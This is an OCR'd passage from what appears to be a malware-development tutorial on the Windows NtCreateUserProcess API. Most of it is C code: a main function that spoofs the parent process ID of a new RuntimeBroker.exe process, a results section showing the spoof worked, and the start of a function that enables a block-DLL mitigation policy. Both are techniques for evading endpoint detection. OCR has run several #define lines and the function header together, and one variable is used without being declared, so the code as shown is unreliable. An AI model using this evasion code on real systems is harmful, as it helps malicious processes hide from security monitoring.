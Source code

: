 ```
	HeapFree(GetProcessHeap(), 0, pAttributeList);
	if (*hProcess == NULL || *hThread == NULL)
		return FALSE;
	else
		return TRUE;
}

```
### **Main Function**

The main function below invokes `NtCreateUserProcessForPPidSpoofing` to perform PPID spoofing.


```
#define TARGET_PROCESS          L"\\??\\C:\\Windows\\System32\\RuntimeBroker.exe"#define PROCESS_PARMS           L"C:\\Windows\\System32\\RuntimeBroker.exe -Embedding"#define PROCESS_PATH            L"C:\\Windows\\System32"#define PARENT_PID              4384int main() {

  HANDLE	hProcess	= NULL,
		    hThread		= NULL;

  hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PARENT_PID);
  if (!NtCreateUserProcessForPPidSpoofing(TARGET_PROCESS, PROCESS_PARMS, PROCESS_PATH, hParentProcess, &hProcess, &hThread))
	return -1;

  printf("[+] Target Process Created With Pid : %d \n", GetProcessId(hProcess));
  printf("[+] Process's Main Thread Created With Tid : %d \n", GetThreadId(hThread));
  return 0;
}


```
### **Results**

The image below shows a process with a successfully spoofed parent process.

[![](91%20Diving%20Into%20NtCreateUserProcess%209128d84d1c2f49939aeffccbc228565b/ntcreateuserprocess-719850092-b93a1079-dfe7-4a3c-9db5-bc00c30df0b6.png)](91%20Diving%20Into%20NtCreateUserProcess%209128d84d1c2f49939aeffccbc228565b/ntcreateuserprocess-719850092-b93a1079-dfe7-4a3c-9db5-bc00c30df0b6.png)### **Block DLL Policy Using NtCreateUserProcess**

`NtCreateUserProcess` can also be used to enable the block DLL policy, which was introduced in the previous module. The `PS_ATTRIBUTE_LIST` structure will require two attributes. The additional attribute is set to `PS_ATTRIBUTE_MITIGATION_OPTIONS` which specifies the process mitigation options to use for the new process.

`NtCreateUserProcessForBlockDllPolicy` is a custom function that enables the mitigation policy to block non-Microsoft signed DLLs.


```
BOOL NtCreateUserProcessForBlockDllPolicy(
	IN      PWSTR   szTargetProcess,
	IN      PWSTR   szTargetProcessParameters,
	IN      PWSTR   szTargetProcessPath,
	OUT     PHANDLE hProcess,
	OUT     PHANDLE hThread
) {

	// getting the address of 'RtlCreateProcessParametersEx' and 'NtCreateUserProcess' from ntdll.dll
	fnRtlCreateProcessParametersEx  RtlCreateProcessParametersEx    = (fnRtlCreateProcessParametersEx)GetProcAddress(GetModuleHandle(L"NTDLL"), "RtlCreateProcessParametersEx");
	fnNtCreateUserProcess           NtCreateUserProcess             = (fnNtCreateUserProcess)GetProcAddress(GetModuleHandle(L"NTDLL"), "NtCreateUserProcess");
```